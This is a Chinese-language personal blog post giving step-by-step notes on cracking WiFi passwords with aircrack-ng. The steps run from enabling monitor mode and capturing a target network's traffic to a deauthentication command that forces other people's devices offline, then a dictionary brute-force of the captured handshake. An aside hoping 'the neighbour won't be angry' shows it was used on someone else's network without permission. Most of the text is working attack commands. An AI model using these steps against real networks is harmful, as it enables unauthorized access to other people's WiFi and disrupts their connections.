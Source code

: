 ```yaml
---
title: aircrack-ng破解wifi
date: 2020-5-4
author: shepherd
toc: ture
categories: [操作系统,Linux]
tags: [aircrack-ng]
---
```


但是使用wifiphisher的情况并没有我想象的那样强大，应该是我的操作问题吧，只是生成了一个假热点，并将用户重定向至钓鱼页面，并没有断开连接原来wifi的设备

在查找资料时碰到了这个工具包，有一个功能就是强制断开他人的wifi，挺有趣的记下笔记

使用前提，支持监听注入的网卡

## step1

使用`iwconfig`查看网卡加载情况

![](https://cdn.jsdelivr.net/gh/shepherdev/blog_image/article/2020/iwconfig.png)

## step2

`airmon-ng check kill`杀掉所有网络进程

![](https://cdn.jsdelivr.net/gh/shepherdev/blog_image/article/2020/kill-net.png)

如果杀掉后自动启动的话，建议使用`systemctl stop`杀得彻底些

## step3

`airmon-ng start wlp0s20f0u1`启动网卡监听模块

![](https://cdn.jsdelivr.net/gh/shepherdev/blog_image/article/2020/start-mon.png)

注意网卡名字会变成`wlp0s20f0u1mon`

![](https://cdn.jsdelivr.net/gh/shepherdev/blog_image/article/2020/monitor.png)

## step4

`airodump-ng wlp0s20f0u1mon`开始监听

![](https://cdn.jsdelivr.net/gh/shepherdev/blog_image/article/2020/net-monitor.png)

- PWR是信号强度，越小信号越强
- CH代表信道

## step5

`airodump-ng -c 6 --bssid 网络mac地址 -w filename wlp0s20f0u1mon`开始抓包

- -c，指的是信道CH
- --bssid，指的是AP mac地址
- -w，输出的文件路径

![](https://cdn.jsdelivr.net/gh/shepherdev/blog_image/article/2020/airodump-ng.png)

`STATION`代表的是设备mac，由几个mac就代表有几个设备

当有设备重新连接时，就会抓到握手包，放到`-w`指定的文件里，下一步介绍强制掉线

## step6

`aireplay-ng -0 0 -a AP_mac -c 设备mac wlp0s20f0u1mon`强制wifi掉线

![](https://cdn.jsdelivr.net/gh/shepherdev/blog_image/article/2020/aireplay-ng.png)

（希望对面邻居不要生气）当对方重连时就会抓到握手包

![](https://cdn.jsdelivr.net/gh/shepherdev/blog_image/article/2020/handsnake.png)

## step7

`aircrack-ng -a2 -b AP_mac -w 字典.txt filename.cap`跑字典，爆破密码

字典去网上找吧

## 参考文献

[【无线攻防】使用aircrack-ng工具破解wifi密码](https://blog.csdn.net/nuoya_1995/article/details/52402728)
